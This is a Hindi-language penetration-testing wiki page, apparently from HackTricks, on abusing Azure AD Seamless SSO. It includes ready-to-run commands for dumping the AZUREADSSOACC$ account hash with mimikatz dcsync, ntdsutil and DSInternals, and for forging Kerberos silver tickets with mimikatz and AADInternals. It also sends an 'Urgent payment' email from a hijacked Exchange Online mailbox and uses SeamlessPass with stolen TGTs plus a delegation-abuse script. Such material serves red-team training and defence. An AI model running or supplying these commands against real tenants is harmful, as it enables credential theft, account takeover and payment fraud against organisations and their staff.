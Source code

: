 # Az - Seamless SSO

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उपयोगकर्ताओं को उनके कॉर्पोरेट उपकरणों पर साइन इन करता है** जो आपके कॉर्पोरेट नेटवर्क से जुड़े होते हैं। जब सक्षम किया जाता है, **उपयोगकर्ताओं को Azure AD में साइन इन करने के लिए अपने पासवर्ड टाइप करने की आवश्यकता नहीं होती है**, और आमतौर पर, यहां तक कि अपने उपयोगकर्ता नाम भी टाइप करने की आवश्यकता नहीं होती है। यह सुविधा आपके उपयोगकर्ताओं को आपके क्लाउड-आधारित अनुप्रयोगों तक आसान पहुंच प्रदान करती है बिना किसी अतिरिक्त ऑन-प्रिमाइसेस घटकों की आवश्यकता के।

<figure><img src="../../../../images/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

बुनियादी रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **एक ऑन-प्रिम डोमेन से जुड़े पीसी पर होते हैं**।

यह [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) और [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) दोनों द्वारा समर्थित है।

डेस्कटॉप SSO **प्रमाणीकरण के लिए Kerberos** का उपयोग कर रहा है। जब कॉन्फ़िगर किया जाता है, Azure AD Connect एक **कंप्यूटर खाता बनाता है जिसे AZUREADSSOACC`$`** कहा जाता है ऑन-प्रिम AD में। `AZUREADSSOACC$` खाते का पासवर्ड **कॉन्फ़िगरेशन के दौरान Azure AD को स्पष्ट पाठ के रूप में भेजा जाता है**।

**Kerberos टिकट** **पासवर्ड के NTHash (MD4)** का उपयोग करके **एन्क्रिप्टेड** होते हैं और Azure AD भेजे गए पासवर्ड का उपयोग करके टिकटों को डिक्रिप्ट करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) को उजागर करता है जो Kerberos **टिकटों** को स्वीकार करता है। डोमेन-जोड़े गए मशीन का ब्राउज़र SSO के लिए इन टिकटों को इस एंडपॉइंट पर अग्रेषित करता है।

### On-prem -> cloud

उपयोगकर्ता का **पासवर्ड** **`AZUREADSSOACC$` कभी नहीं बदलता**। इसलिए, एक डोमेन प्रशासक **इस खाते के हैश को समझौता कर सकता है**, और फिर इसका उपयोग **सिल्वर टिकट बनाने** के लिए कर सकता है ताकि **किसी भी ऑन-प्रिम उपयोगकर्ता को सिंक किया जा सके**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
हैश के साथ आप अब **सिल्वर टिकट्स** बना सकते हैं:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
चांदी के टिकट का उपयोग करने के लिए, निम्नलिखित चरणों का पालन किया जाना चाहिए:

1. **ब्राउज़र प्रारंभ करें:** Mozilla Firefox लॉन्च किया जाना चाहिए।
2. **ब्राउज़र कॉन्फ़िगर करें:**
- **`about:config`** पर जाएं।
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) के लिए वरीयता को निर्दिष्ट [मानों](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) पर सेट करें:
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **वेब एप्लिकेशन तक पहुँचें:**
- एक वेब एप्लिकेशन पर जाएं जो संगठन के AAD डोमेन के साथ एकीकृत है। एक सामान्य उदाहरण [Office 365](https://portal.office.com/) है।
4. **प्रमाणीकरण प्रक्रिया:**
- लॉगिन स्क्रीन पर, उपयोगकर्ता नाम दर्ज करें, पासवर्ड फ़ील्ड को खाली छोड़ दें।
- आगे बढ़ने के लिए, TAB या ENTER दबाएं।

> [!TIP]
> यदि MFA सक्षम है तो यह बायपास नहीं करता है

#### विकल्प 2 बिना dcsync - SeamlessPass

यह हमला **dcsync हमले के बिना** करना भी संभव है ताकि अधिक छिपा रह सके, जैसा कि [इस ब्लॉग पोस्ट](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) में समझाया गया है। इसके लिए आपको केवल निम्नलिखित में से एक की आवश्यकता है:

- **एक समझौता किए गए उपयोगकर्ता का TGT:** भले ही आपके पास एक न हो लेकिन उपयोगकर्ता समझौता किया गया था, आप कई उपकरणों में लागू किए गए नकली TGT प्रतिनिधित्व चाल का उपयोग करके एक प्राप्त कर सकते हैं जैसे [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) और [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)।
- **गोल्डन टिकट**: यदि आपके पास KRBTGT कुंजी है, तो आप उस उपयोगकर्ता के लिए आवश्यक TGT बना सकते हैं जिसे आप हमला कर रहे हैं।
- **एक समझौता किए गए उपयोगकर्ता का NTLM हैश या AES कुंजी:** SeamlessPass इस जानकारी के साथ डोमेन नियंत्रक के साथ संवाद करेगा ताकि TGT उत्पन्न किया जा सके।
- **AZUREADSSOACC$ खाता NTLM हैश या AES कुंजी:** इस जानकारी और उपयोगकर्ता के सुरक्षा पहचानकर्ता (SID) के साथ, सेवा टिकट बनाना और क्लाउड के साथ प्रमाणीकरण करना संभव है (जैसा कि पिछले तरीके में किया गया था)।

अंत में, TGT के साथ, आप उपकरण [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) का उपयोग कर सकते हैं:
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
Firefox को seamless SSO के साथ काम करने के लिए और जानकारी [**इस ब्लॉग पोस्ट में**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) मिल सकती है।

#### ~~क्लाउड-केवल उपयोगकर्ताओं के लिए Kerberos टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि Active Directory प्रशासकों के पास Azure AD Connect तक पहुंच है, तो वे **किसी भी क्लाउड-उपयोगकर्ता के लिए SID सेट कर सकते हैं**। इस तरह Kerberos **टिकट** **क्लाउड-केवल उपयोगकर्ताओं के लिए भी बनाए जा सकते हैं**। एकमात्र आवश्यकता यह है कि SID एक उचित [SID](<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v=ws.10)>) हो।

> [!CAUTION]
> क्लाउड-केवल प्रशासनिक उपयोगकर्ताओं का SID बदलना अब **Microsoft द्वारा अवरुद्ध** है।\
> जानकारी के लिए देखें [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)

### ऑन-प्रेम -> क्लाउड रिसोर्स आधारित सीमित प्रतिनिधित्व के माध्यम से <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

कोई भी जो इस खाते में कंप्यूटर खातों (`AZUREADSSOACC$`) का प्रबंधन कर सकता है, वह **खाते पर एक संसाधन आधारित सीमित प्रतिनिधित्व को कॉन्फ़िगर कर सकता है और इसे एक्सेस कर सकता है**।
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## संदर्भ

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
- [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [TR19: मैं आपके क्लाउड में हूँ, सभी के ईमेल पढ़ रहा हूँ - Active Directory के माध्यम से Azure AD हैक करना](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{{#include ../../../../banners/hacktricks-training.md}}
